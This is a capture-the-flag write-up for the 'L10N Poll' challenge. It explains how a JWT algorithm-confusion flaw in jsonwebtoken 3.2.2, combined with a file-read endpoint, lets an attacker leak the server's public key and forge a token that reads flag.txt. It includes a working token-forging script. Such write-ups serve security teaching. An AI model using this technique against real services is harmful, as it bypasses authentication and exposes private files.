 ```yaml
---
description: jsonwebtoken authentication bypass vulnerability.
---
```


# L10N Poll

## Problem

I made the ultimate polling service! Il supporte tout les langues. Это потому, что на сайте используются передовые технологии локализации. ¿Puedes leer esto? أنا متأكد من أنني لا أستطيع. 立即开始！

\(The flag is stored in `flag.txt`.\)

## Solution

We can see the dependencies in package.json:

```javascript
{
  "dependencies": {
    "@koa/router": "^10.0.0",
    "jsonwebtoken": "^3.2.2",
    "koa": "^2.13.1",
    "koa-bodyparser": "^4.3.0",
    "koa-send": "^5.0.1",
    "koa-static": "^5.0.0"
  },
  "type": "module",
  "scripts": {
    "start": "node server.js"
  }
}
```

A quick search tells us that `jsonwebtoken` 3.2.2 is vulnerable to an authentication bypass vulnerability.

{% embed url="https://snyk.io/test/npm/jsonwebtoken/3.2.2" %}

{% embed url="https://www.chosenplaintext.ca/2015/03/31/jwt-algorithm-confusion.html" %}

![](../../.gitbook/assets/017a99bc69204175bbb6219e9bfaf862.png)

And we can see that in the response for `/localization-file`, the JWT token is checked and the language is set according to the token value.

```javascript
router.get("/localisation-file", async ctx => {
    const token = ctx.cookies.get("lion-token");
    /** @type {string} */
    let language;
    if (token) {
        const payload = await new Promise((resolve, reject) => {
            try {
                jwt.verify(token, publicKey, (err, result) => err ? reject(err) : resolve(result));
            } catch (e) {
                reject(e);
            }
        });
        language = payload.language;
    } else {
        language = languages[Math.floor(Math.random() * languages.length)].id;
        ctx.cookies.set("lion-token", generateToken(language));
    }
    await send(ctx, language, {root: __dirname});
});
```

JWT tokens are essentially encoded JSON data. However, normally we cannot tamper the data because there is a signature that is verified at the server-side.

![](../../.gitbook/assets/ac7743c88ff544e0ae9e90f681e35eaa.png)

However, in this particular exploit, as long as we are able to get hold of the public key, we can trick the server into thinking that the received public key is actually an HMAC secret key. Since we would know the public key, we would be able to generate a valid private key!

How do we get the key? Well, we know that the key file is in the `__dirname` directory.

```javascript
const publicKey = readFileSync(join(__dirname, "key"), "utf8");
```

In the POST handler for `/localization-language`, we are able to control the `language` parameter to make the server generate a JWT token with the corresponding language in the `language` field.

```javascript
router.post("/localization-language", async ctx => {
    const language = ctx.request.body?.language;
    if (typeof language === "string") {
        if (language.match(languageRegex)) {
            ctx.cookies.set("lion-token", generateToken(language));
        } else {
            ctx.throw(400, msgs[Math.floor(Math.random() * msgs.length)]);
        }
    } else {
        ctx.throw(400, "no language");
    }
    ctx.redirect("/");
});
```

Then, in the GET handler for `/localisation-file`, the server would send us the file at `<__dirname>/<language>`. Hence, we are able to read arbitrary files.

```javascript
await send(ctx, language, {root: __dirname});
```

However, since we have to pass the following regex:

```javascript
const languageRegex = /^[a-z]+$/;
```

we cannot read `flag.txt` or `key.priv`.

Let's test out this theory. I sent a POST request to the `/localization-language` endpoint, with the JSON data:

```javascript
{
    "language":   "key"
}
```

![](../../.gitbook/assets/ee5d3d569b3e4f2d932e525ea3a7c54b.png)

This sets the `"language"` parameter to `"key"` in the JWT token.

![](../../.gitbook/assets/0f76156bcbd645baa62bae08d0f87e8c.png)

Then, let's send a GET request to `/localisation-file` to get the key file.

![](../../.gitbook/assets/0f57f50377614e0ab8423a107342d193.png)

We can sign the token using the public key, then send it to the server. Although the server expects an RSA public key, because of the vulnerability mentioned earier, it thinks that this is an HMAC private key.

Since the private key was generated from the server's public key, it is definitely valid and the server would accept it.

Here's the script that would generate the JWT payload:

```javascript
import jwt from 'jsonwebtoken';

var key = `-----BEGIN PUBLIC KEY-----
MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQCRaHtUpvSkcf2KCwXTiX48Tjxf
bUVFn7YimqGPQbwTnE0WfR5SxLK/DH0os9jCCeb7pJ08AbHFBzQNUfbg47xI3aJh
PMdjL/w3iqfc56C7lt59u4TeOYc7kguph/GTYDPDZkgtbkFJmbkbg9MvV723U1PW
M7N2P4b2Xf3p7ZtaewIDAQAB
-----END PUBLIC KEY-----`;

var tokenPayload = {
    "language": "flag.txt",
    "iat": 1623595244
};

var forgedToken = jwt.sign(tokenPayload, key);

console.log(forgedToken);

try{
    console.log(jwt.verify(forgedToken, key))
} catch (e) {
    console.log(e);
}
```

Note that you'll have to downgrade `jsonwebtoken` to version 3.2.2 to test whether the exploit works.

The token is successfully verified, which means that our payload worked. We have changed the `language` parameter to `flag.txt`.

![](../../.gitbook/assets/3e8352d594494be689a0c33e3d8dfbe4.png)

Plugging in this token value to our `lion-token` cookie, we can read `flag.txt`.

![](../../.gitbook/assets/ffb1978a1041432fa086441be71f8aa0.png)

